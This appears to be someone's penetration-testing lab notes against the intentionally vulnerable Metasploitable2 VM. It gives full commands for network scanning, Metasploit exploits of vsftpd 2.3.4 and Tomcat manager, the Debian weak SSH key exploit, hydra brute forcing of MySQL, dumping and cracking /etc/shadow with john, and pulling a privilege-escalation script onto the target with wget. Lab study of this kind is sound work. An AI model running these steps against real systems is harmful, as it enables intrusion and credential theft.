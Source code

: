 ---------------Setting up metasploitable2--------------------
//Configure basic requirement of ram,core,network according to our OS in virtual box
//start the machine
//login credentials
metasploitable login : msfadmin
password : msfadmin 

#in kali
//first do ifconfig to know the netmask of our ip and run the discover tool
here in our case we have inet 192.168.190.144 so we have netmask 192.168.190. and now we will scan from 0 to 255 range

netdiscover -r 192.168.190.0/24                 //we will scan with r range to know all the devices in the network .

//Now we know the ip pf the target machine now we will scan port
nmap -v -T5 -p- -A IP_of_TARGET-oA metasploitable2
//-v for verbose
//-p- is same as -p 0-65535
//-A most detailed output check man to get details
//-oA save output in all formats that is nmap gnamp xml and after that name of the file we want here I have named it metasploitable2
//-T5 here we can write numbers from 1 to 5 , 1 means slow and 5 means fast scan

//GUI version of nmap is zenmap
//easy to use

--------------Exposing ftp-----------------------------
//details from nmap
port 21 
version vsftpd 2.3.4

//try to connect to target
ftp IP_of_TARGET
//if ftp not installed
apt install ftp

//here anonymous login is allowed so just type in name
Name : anonymous
password : anything

to get information of ftp commands type
ftp> ?
ftp> bye        //to close the connection

//Now we will search exploit of vsftps version in browser
we have result of rapid7 creator of metaslpoit 
from there we have the name of the module

start metasploit in kali and paste the module name
msf> use exploit/unix/ftp/vsftpd_234_backdoor
//type info to see the details of the exploit
msf>info
//type option to see option to be set for the exploit
msf>show options
//we have to set rhosts
msf>set rhost IP_of_TARGET

//we can check the exploit before running it completely
msf>check
//now running the exploit
msf>exploit or run 
//and we will have the shell tada

--------------Vulnerability scanning Nessus--------------------
//Do the installing stuff
//now we will start nessus

kali>/etc/init.d/nessusd start
//to identify the port in which nessus is hosting its website
kali>netstat -antp
//once we have the port open the browser and type 127.0.0.1:port_number
//login with credential

//go to new scan
//go to basic network scan
//name the scan
//type description
//Enter folder path
//add the ip of target
//save it and launch the scan

-----------------SSh vuln------------------------------------------
from nessus scan we got a openssh vuln of random number generation from there we got exploit CVE just google it and got github link where we got python exploit now we have to download it 
use wget to download
kali>wget download_link_of_exploit

//running the script it looks like python2 script
kali> python2 5720.py     //5720.py is the name of script we just downloaded
now it shows we have to enter the arguments to run it successful
we need to download the file from git repo in debian-ssh/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 link in download button
kali>wget paste_the_link

//now decompressing bz2 file
kali> bzip2 -d debian_ssh_rsa_2048_x86.tar.bz2

//un archiving tar file
kali> tar -xvf debian_ssh_rsa_2048_x86.tar.bz2

//both above commands can be done in one go also
kali> tar -xjvf debian_ssh_rsa_2048_x86.tar.bz2

//runnin exploit with arguments which is provided when we run it without argument
kali> python 5720.py rsa/2048/ IP_of_TARGET root 10

//now we have to exceute the command provided by the script
kali> ssh -lroot -p22 -i rsa/2048/rsa_which_is_valid IP_of_TARGET

-------------------------Web service vuln--------------------------
tool - nikto (for web vuln)

nikto -host IP_of_TARGET -p 8081        //-host for specifying host and -p for specifiny port of web server if port not specified then it will use defualt port 80

//here we found a vuln of tomcat/manager with credentials user : tomcat password : tomcat so se will find vuln of that in metasploit
//starting metasploit
search tomcat
//we find two reliable exploit tomcat_mgr_deploy and tomcat_mgr_upload
//for now we will use upload exploit

msf> use exploit/multi/http/tomcat_mgr_deploy
show options
set HttpPassword tomcat
set HttpUsername tomcat
set rhost IP_of_target
set rport 8081

//run the exploit 
exploit
//now we get meterpreter shell

//to see what command we can run on meterpreter shell
meterprter > ?

------------------------Database and password attacks----------------

//from nmap we found that 
3306/tcp mysql open (MySQL 5.0.51a-3ubuntu5)<--service

//we have to guess the username and password for mysql using sqldict tool (password dictonary attack)

//to run sql dict we need to install wine32 (which allows us to use windows program in linux)

//when we run sqldict we will be provided command to install wine32
kali>sqldict

//now after installation run sqldict again and if got a GUI interface enter TargetIP, Targer account (username) , and list of password.

//we can do the above through another tool hydra
hydra -l root -P password-list mysql://IP_of_target      //-l to specify username
and we find the password - [blank]

//now once we found the password from hydra we will login
mysql -u root -p -h IP_of_target        //-p for password -u for username
-h for host

//we will get mysql database

//to view database in server
show databases;

//by doing that we found an interesting database dvwa so we will look into it
use dvwa;

//to view tables in database
show tables;

//we found two tables there guestbook and users
//lets view data in tabel users

select * from users;        // * here mean everything in users table
//we have some emails and their hashes of password we can crack it online or we can use john the ripper

--------------Password Cracking-----------------------------

//once we have shell in target system we will crack their password
cat /etc/passwd
//copy all the data and save it in kali machine filename:password

cat /etc/shadow
//copy all the data and save it in filename:shadow

//we will use john the ripper to decrpyt the password
//first we need to combine shadow fiie and password file as it is format of john the ripper

unshadow password shadow > crack-me

//now cracking
john crack-me

//using dictonary-file
john --wordlist=/usr/share/wordlists/rockyou.txt crack-me

//to view cracked password
john --show crack-me

------------Privilege Escalation-------------------------------------
kali>unix-privesec-check
//running this will give url to download the script
//now copy the link of the download 

//Now in target shell we wil download that script
//it meterpreter than 
meterpreter>shell       //to get shell of the system
//navigate to /tmp
//downloading the script
wget Link_which_we_copied_from_url_download_button
//extracting tar.gz file
tar -zxvf downloaded_file.tar.gz
//running the script
./unix-privesc-check standard       //we can also to detailed in place of standard
